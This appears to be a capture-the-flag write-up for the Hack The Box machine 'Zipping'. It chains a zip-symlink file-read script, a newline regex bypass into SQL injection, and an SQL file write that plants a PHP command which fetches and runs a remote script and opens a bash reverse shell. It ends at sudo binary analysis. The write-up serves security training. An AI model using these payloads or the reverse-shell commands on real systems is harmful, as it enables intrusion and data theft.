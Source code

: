 
we start the machine as always with a port scan:
	
	rustscan -a 10.10.11.229
output:
	
	22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
	|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
	80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
	|_http-title: Zipping | Watch store
	|_http-server-header: Apache/2.4.54 (Ubuntu)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

we only got 2 ports open so we can tackle the web server running on port 80.
but before that the machine is named _Zipping_ so bettert add those 2 records on /etc/hosts:
	
	echo '10.10.11.229	zipping	  zipping.htb' >> /etc/hosts
now we can visit the webserver in _http://zipping.htb/_
the site has 2 interesting parts:
1) Shop of items in http://10.10.11.229/shop/index.php?page=product&id=4
where we can see the query paramether that indicates the page and product;
maybe some LFI or SQLI... but i tried some payloads and doesn't work.
2) In the second part of the site there is an upload Form in http://10.10.11.229/upload.php where we can submit a zip file...
interesting, is ineherent with the name of the machine so i take a shoot and i will 
concentrate my effort here for now.

I start by uploading a simple non-pdf file but i got this error:
	
	The unzipped file must have a .pdf extension.
so i create a pdf file and zip it and i got this:
	
	uploads/2967cde7869fc5cbab5280e68bd77603/prova.pdf
so the file get uploaded in a directory with a hash and the name of the file pdf inside the zip folder.
I tried to check that hash and in fact it is the hash of the file zip so we can predict where the file will
be uploaded to.
so i start checking for zip exploit and found this:
	
	https://book.hacktricks.xyz/pentesting-web/file-upload
where i see a bunch of exploits and one looks intersting:
	
	ln -s ../../../index.php symindex.txt
	zip --symlinks test.zip symindex.txt 
this is an LFI (local file inclusion) that use symlinks so when the zip folder get unzipped the link
of the extracted file keep pointing to the link.
so for example if i create this file:
	
	ln -s /etc/passwd file.pdf
	zip --symlinks test.zip file.pdf
and upload on the server i will see its /etc/passwd
i like to automate stuff so i've written this python code to se the file i want:
	
	'''	
	#!/bin/env python3

	import os
	import requests
	import sys
	import subprocess
	from time import sleep

	url = "http://zipping.htb/"

	os.system(f"rm test.zip")
	os.system(f"rm file.pdf")

	path = input("inserisci la path da leggere: ")
	filename = 'file.pdf'

	os.system(f"ln -s {path} {filename}")
	os.system(f"zip --symlinks test.zip {filename}")

	#creo l'oggetto file da inviare
	files = {"zipFile": ('test.zip', open('test.zip', 'rb'), 'application/zip')}
	#invio la richiesta post all'endpoint
	os.system('curl -s http://zipping.htb/upload.php -F "zipFile=@./test.zip;type=application/zip" -F "submit=Submit" > /dev/null 2>&1')

	print("[*]File uploaded\n")
	#prendo l'hash md5 del file
	file_md5sum = subprocess.check_output("md5sum test.zip", shell=True, text=True)[:32]
	#get the file from the server
	os.system(f'curl "{url}uploads/{file_md5sum}/{filename}"')

	print("\n[*]Exploit by Disturbante")
	'''
this code create the sym link with the path u write, create a zip folder, compute the md5 of the folder,
upload the file and visit the url created.

with the LFI i got the user of the webserver:
	
	[REDACTED]:x:1001:1001::/home/[REDACTED]:/bin/bash
now that i know the name of the user i can also get the user flag in with my script in 2 clicks:
	
	/home/[REDACTED]/user.txt
we need an rce to continue...

So with the LFI i started to download some webserver files like the one where there is the
product query paramether.
in fact in path:
	
	/var/www/html/shop/product.php
i read a very interesting line:
	
	$id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
this code here filter the id GET paramether with a regex:
if the id start and end with a number and doesn't contanin anything else the query get executed.
So to get an sqli we need to bypass this preg_match, to do so i found this:
	
	https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp
in this snippet the preg_match doesn't see the \n (%0a) character and go trought:
	
	$myinput="aaaaaaa
	11111111"; //Notice the new line
	echo preg_match("/1/",$myinput);
	//1  --> In this scenario preg_match find the char "1"
	echo preg_match("/1.*$/",$myinput);
	//1  --> In this scenario preg_match find the char "1"
	echo preg_match("/^.*1/",$myinput);
	//0  --> In this scenario preg_match DOESN'T find the char "1"
	echo preg_match("/^.*1.*$/",$myinput);
	//0  --> In this scenario preg_match DOESN'T find the char "1"
so we need to craft our payload like this:
	
	http://10.10.11.229/shop/index.php?page=product&id=%0a OR 1=1
after URL encode:
	
	http://10.10.11.229/shop/index.php?page=product&id=%0a%20OR%201=1
output:
	
	Product does not exist!

so we can execute sql code!!
so now we need to get RCE and i can try to do it via sql file write:
	
	\';select \'<?php system(\"curl http://10.10.14.238/shell.sh|bash\");?>\' into outfile \'/var/lib/mysql/file.php\' #1
so we need to create a shell.sh on our local machine and start a web server:
	
	echo '/bin/bash -i >& /dev/tcp/10.10.14.238/4444 0>&1' > shell.sh
	python3 -m http.server 80
now when we go here:
	
	curl -s $'http://zipping.htb/shop/index.php?page=product&id=%0A\'%3bselect+\'<%3fphp+system(\"curl+http%3a//10.10.14.238/shell.sh|bash\")%3b%3f>\'+into+outfile+\'/var/lib/mysql/file.php\'+%231'
the file get uploaded in _/var/lib/mysql/file.php_
so now we need to visit the file.php in order to activate the revshell, we can use the other
LFI on the server: 
	
	python3 -m pwncat -lp 4444
	curl -s $'http://zipping.htb/shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2ffile'
So now we are in as the user!!

We need to enumerate and escalate.
when i run:
	
	sudo -l
output:
	
	User [REDACTED] may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
so we apperently can run this binary as root
so i downloaded and explored in ghidra:
	
	(on pwncat terminal)
	Ctrl + D
	downlaod /usr/bin/stock htb/zipping/stock
now we can analyze the binary.
it is a software for stock management but it is protected by a password in this function:

	iVar1 = checkAuth(local_b8);
	if (iVar1 == 0) {
	    puts("Invalid password, please try again.");
	    uVar2 = 1;
	}
	iVar1 = strcmp(param_1,"[REDACTED]");
  	return iVar1 == 0;
we now have the password we now need to undestand what is doing and if we can hijack some function.
